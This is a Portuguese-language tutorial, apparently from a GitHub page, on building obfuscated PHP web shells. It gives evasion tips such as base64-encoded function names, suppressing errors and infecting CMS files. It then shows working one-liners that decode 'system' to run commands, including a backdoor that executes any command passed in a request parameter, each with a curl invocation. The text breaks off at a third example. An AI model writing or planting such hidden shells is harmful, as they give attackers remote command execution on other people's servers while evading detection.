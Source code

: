 - Uso de shellcode em valores fixos;
- Array é vida! use sem moderação;
- Concatenação de functions nativas & definição de variáveis.
- base64_decode - encode(data) , bin2hex , error_reporting(0)
- Use requests (get or post) que já existam no sistema;
- Estude a criação de propriedades maliciosas em class’s do sistema, crie suas functions; 
- Manuseio de valores da variável global $_SERVER;
- Estude métodos de infeção para arquivos CMS’s feitos em PHP;

#### Vamos para os exemplos

**EXEMPLO 01**
Functions:

1. [ERROR_REPORTING](https://secure.php.net/manual/pt_BR/function.error-reporting.php)
2. [BASE64_DECODE](http://php.net/manual/pt_BR/function.base64-decode.php)
3. [DEFINE](http://php.net/manual/pt_BR/function.define.php)
4. [SYSTEM](http://php.net/manual/pt_BR/function.system.php)
5. [EXIT](http://php.net/manual/pt_BR/function.exit.php)

Variáveis: c3lzdGVt=system ,dW5hbWUgLWE7bHM7=uname -a;ls; ,aWQ==id
 **CODE:**

```
 (error_reporting(0).($__=@base64_decode("c3lzdGVt")).$__(base64_decode("aWQ="))
.define("_","dW5hbWUgLWE7bHM7").$__(base64_decode(_)).exit);

```

Execução: curl -v 'http://localhost/shell.php'



**EXEMPLO 02**
Functions:

1. [ERROR_REPORTING](https://secure.php.net/manual/pt_BR/function.error-reporting.php)
2. [BASE64_DECODE](http://php.net/manual/pt_BR/function.base64-decode.php)
3. [ISSET](http://php.net/manual/pt_BR/function.isset.php)
4. [PRINT](http://php.net/manual/pt_BR/function.print.php)
5. [SYSTEM](http://php.net/manual/pt_BR/function.system.php)
6. [EXIT](http://php.net/manual/pt_BR/function.exit.php)

Variáveis: c3lzdGVt=system
**CODE:**

```
 (error_reporting(0).($__=@base64_decode("c3lzdGVt"))
.print($__(isset($_REQUEST[0])?$_REQUEST[0]:NULL)).exit);
```


Execução: curl -v 'http://localhost/shell.php?0=id'
**
****EXEMPLO 03**Functions:

1. [ERROR_REPORTING](https://secure.php.net/manual/pt_BR/function.error-reporting.php)
2. [BASE64_DECODE](http://php.net/manual/pt_BR/function.base64-decode.php)
3. [CREATE_FUNCTION](http://php.net/manual/pt_BR/function.create-function.php) - Cria uma função anônima (lambda-style)
4. [SHELL_EXEC](http://php.net/manual/pt_BR/function.shell-exec.php)
5. [EXIT](http://php.net/manual/pt_BR/function.exit.php)
